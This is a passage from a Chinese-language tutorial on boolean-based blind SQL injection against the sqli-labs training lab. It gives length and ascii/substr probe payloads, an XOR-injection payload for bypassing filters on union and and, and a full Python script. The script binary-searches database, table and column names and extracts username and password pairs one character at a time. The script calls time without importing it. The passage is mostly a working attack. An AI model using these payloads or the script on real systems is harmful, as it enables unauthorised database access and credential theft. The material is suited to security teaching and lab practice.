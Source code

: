 利用这一特性，我们的condition为：length(database())>8 即可用于判断数据库名长度

除此之外，还可：ascii(substr(database(),1,1))<130 用二分法快速获取数据(逐字判断)

payload如下：

```sql
select * from users where username=nouser or length(database())>8
select * from users where username=nouser or ascii(substr(database(),1,1))<130
```

还用到了各种运算符，`<`，`>`，`=`当然不必多提，但是在下面POST的方式中用到了异或符号`^`，这里其实是一种异或注入的方法，***当我们在尝试SQL注入时,发现union,and被完全过滤掉了,就可以考虑使用异或注入。***

异或运算规则:
`1^1=0 0^0=0 0^1=1`
`1^1^1=1 1^1^0=0`  `0^0^0=0`
构造payload:`'^ascii(mid(database(),1,1)=98)^0`

注意这里会多加一个^0或1是因为在盲注的时候可能出现了语法错误也无法判断,而改变这里的0或1,如果返回的结果是不同的,那就可以证明语法是没有问题的.

然后通过python脚本等工具进行自动化注入（手工操作，emmmmm...工作量有点多了，hahahha）

下面给出常用的布尔盲注脚本。

-  **GET 型注入：** 

```python
import requests
url = "http://127.0.0.1/sqli-labs/Less-8/?id=1'"

cookies = {       # 如果目标网站要事先登录，就加上cookies
    "PHPSESSID": "xxxxxxxxx"
}
flag = ''
for i in range(1,49):
    time.sleep(0.06)
    low = 28
    high = 128
    mid = (low+high)//2
    while low < high:
        # payload1 = url + " and ascii(substr(database(),{},1))>{}%23".format(i, mid)
        # payload2 = url + " and ascii(substr((select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database()),{},1))>{}%23".format(i, mid)
        # payload3 = url + " and ascii(substr((select 1,2,group_concat(column_name) from information_schema.columns where table_name=users),{},1))>{}%23".format(i, mid)
        payload4 = url + " and ascii(substr((select group_concat(username,0x7e,password) from users where id = 15),{},1))>{}%23".format(i, mid)
        res = requests.get(url=payload4)
        time.sleep(0.04)
        if 'You are in' in res.text:      # 为真时，即判断正确的时候的条件
            low = mid+1
        else:
            high = mid
        mid = (low+high)//2
    if(mid == 28 or mid == 127):
        break
    flag = flag+chr(mid)
    print(flag)
```
